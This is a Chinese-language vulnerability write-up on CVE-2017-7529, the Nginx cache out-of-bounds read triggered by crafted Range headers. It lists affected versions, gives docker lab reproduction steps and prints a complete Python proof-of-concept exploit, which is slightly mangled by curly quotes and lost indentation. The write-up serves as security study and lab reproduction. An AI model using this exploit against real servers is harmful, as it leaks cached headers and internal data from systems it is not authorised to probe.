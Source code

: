 # （CVE-2017-7529）Nginx 越界读取缓存漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3047](https://www.zhihuifly.com/t/topic/3047)

# （CVE-2017-7529）Nginx 越界读取缓存漏洞

## 一、漏洞简介

Nginx在反向代理站点的时候，通常会将一些文件进行缓存，特别是静态文件。缓存的部分存储在文件中，每个缓存文件包括“文件头”+“HTTP返回包头”+“HTTP返回包体”。如果二次请求命中了该缓存文件，则Nginx会直接将该文件中的“HTTP返回包体”返回给用户。

如果我的请求中包含Range头，Nginx将会根据我指定的start和end位置，返回指定长度的内容。而如果我构造了两个负的位置，如(-600, -9223372036854774591)，将可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

## 二、漏洞影响

*   Nginx Nginx:1.13.2
*   Nginx Nginx:1.13.1
*   Nginx Nginx:1.13.0
*   Nginx Nginx:1.11.13
*   Nginx Nginx:1.11.12

## 三、复现过程

运行测试环境：

```
docker-compose up -d 
```

访问`http://www.0-sec.org:8080/`，即可查看到Nginx默认页面，这个页面实际上是反向代理的8081端口的内容。

调用`python3 poc.py http://www.0-sec.org:8080/`，读取返回结果

![image](img/2ee005ce93fcda1c316a3b1c32b89e0b.png)

可见，越界读取到了位于“HTTP返回包体”前的“文件头”、“HTTP返回包头”等内容。

如果读取有误，请调整poc.py中的偏移地址（605）。

### poc

```
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:

print("%s url" % (sys.argv[0]))

print(“eg: python %s [http://your-ip:8080/](http://your-ip:8080/)” % (sys.argv[0]))

sys.exit()

headers = {

‘User-Agent’: “Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240”

}

offset = 605

url = sys.argv[1]

file_len = len(requests.get(url, headers=headers).content)

n = file_len + offset

headers[‘Range’] = “bytes=-%d,-%d” % (

n, 0x8000000000000000 - n) `r = requests.get(url, headers=headers)

print(r.text)` 
```

## 参考链接

> https://vulhub.org/#/environments/nginx/CVE-2017-7529/